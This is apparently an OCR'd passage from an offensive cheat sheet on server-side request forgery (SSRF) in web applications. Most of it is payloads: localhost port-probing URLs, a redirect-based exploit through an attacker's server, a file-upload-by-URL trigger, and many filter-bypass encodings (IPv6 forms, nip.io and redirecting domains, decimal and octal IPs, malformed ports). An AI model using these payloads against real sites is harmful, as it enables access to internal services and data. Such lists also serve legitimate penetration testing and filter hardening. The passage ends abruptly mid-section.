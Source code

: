 http://localhost:80
http://localhost:443
http://localhost:22
Advanced exploit using a redirection

1. Create a subdomain pointing to 192.168.0.1 with DNS A record  e.g:ssrf.example.com
2. Launch the SSRF: vulnerable.com/index.php?url=http://YOUR_SERVER_IP
vulnerable.com will fetch YOUR_SERVER_IP which will redirect to 192.168.0.1
Advanced exploit using type=url

Change "type=file" to "type=url"
Paste URL in text field and hit enter
Using this vulnerability users can upload images from any image URL = trigger an SSRF
Bypassing filters
Bypass using HTTPS
https://127.0.0.1/
https://localhost/
Bypass localhost with [::]
http://[::]:80/
http://[::]:25/ SMTP
http://[::]:22/ SSH
http://[::]:3128/ Squid
http://0000::1:80/
http://0000::1:25/ SMTP
http://0000::1:22/ SSH
http://0000::1:3128/ Squid
Bypass localhost with a domain redirection
http://spoofed.burpcollaborator.net
http://localtest.me
http://customer1.app.localhost.my.company.127.0.0.1.nip.io
http://mail.ebc.apple.com redirect to 127.0.0.6 == localhost
http://bugbounty.dod.network redirect to 127.0.0.2 == localhost
The service nip.io is awesome for that, it will convert any ip address as a dns.

NIP.IO maps <anything>.<IP Address>.nip.io to the corresponding <IP Address>, even 127.0.0.1.nip.io maps to 127.0.0.1
Bypass localhost with CIDR
It’s a /8

http://127.127.127.127
http://127.0.1.3
http://127.0.0.0
Bypass using a decimal IP location
http://0177.0.0.1/
http://2130706433/ = http://127.0.0.1
http://3232235521/ = http://192.168.0.1
http://3232235777/ = http://192.168.1.1
Bypass using IPv6/IPv4 Address Embedding
IPv6/IPv4 Address Embedding

http://[0:0:0:0:0:ffff:127.0.0.1]
Bypass using malformed urls
localhost:+11211aaa
localhost:00011211aaaa
Bypass using rare address
You can short-hand IP addresses by dropping the zeros
